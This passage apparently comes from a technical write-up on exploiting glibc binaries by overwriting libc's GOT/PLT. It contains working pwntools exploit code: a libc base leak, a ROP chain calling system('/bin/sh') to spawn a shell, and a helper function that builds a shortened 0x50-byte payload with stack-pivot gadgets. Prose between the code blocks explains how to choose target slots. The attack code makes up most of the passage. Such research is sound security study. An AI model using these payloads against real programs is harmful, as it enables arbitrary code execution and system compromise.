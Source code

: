 ```python
gdb.attach(p,'')
base = int(p.readline(),16) - (0x7ff6a25244a0-0x7ff6a24c8000) - 0x4250
libc.address=base
info(hex(base))
rop = ROP(libc)
rdi = rop.find_gadget(["pop rdi",'ret'])[0]
rax = rop.find_gadget(["pop rax",'ret'])[0]
rop_chain = [rdi,libc.search(b"/bin/sh").__next__(),rax,libc.sym["system"]]
dest, payload = fx3(libc,1,rop_chain,1)
success(hex(len(payload)))
context.arch='amd64'
p.send(p64(dest))
p.send(p64(len(payload)))
p.send(payload)
p.interactive()
```

It's worth mentioning that I didn't automize this method and it requires computation for pos. For a special pos sequence, you need to consider the layout. For example, the pos sequence is "3 1", which means it hits slot-3 first and then hits slot-1. Because if we choose slot 1 to attack, we are likely to overwrite slot 3 which fails our exploitation. Therefore, we have to choose slot 3 to attack. But, assuming our ropchain's length is 3, for sequence "7 6", we choose 6 rather than 7 since we can hide the rop chain between slot-1 to slot-6. 


By checking several common functions, I noticed that lots of functions trigger "__mempcpy_avx_unaligned_erms" while doing IO, including print and puts. 

So it's necessary to talk about the shortest payload for pos=0x6.

It's simple to apply 0x6 to the example code and get the length of 0x70.

## Shorter? - 0x50

Of course! We still have lots of useless space. For example, the following code also works for pos=6 but it only takes 0x50 bytes.

```py
def fx4(libc,pos = 6, rop_chain=[],nudge=0):
    # nudge to align stack
    assert(pos==6)
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)
    escape = rop.search(r"^pop rsp .*jmp rax")
    pivot = rop.search(r"^pop rsp ; ret")
    rsi = rop.search(r"^pop rsi ; ret")
    rop_chain += [rsi,] 
    rop_len = len(rop_chain)
    assert(rop_len<6)
    payload = flat([got+0x18,pivot])+flat(rop_chain)+p64(plt0)+flat([escape,got+0x3000-nudge*8])
    return got+0x08,payload
```


[2]: ../Infra/SinkFinder.py
[3]: ../Code
[4]: ../Temp.md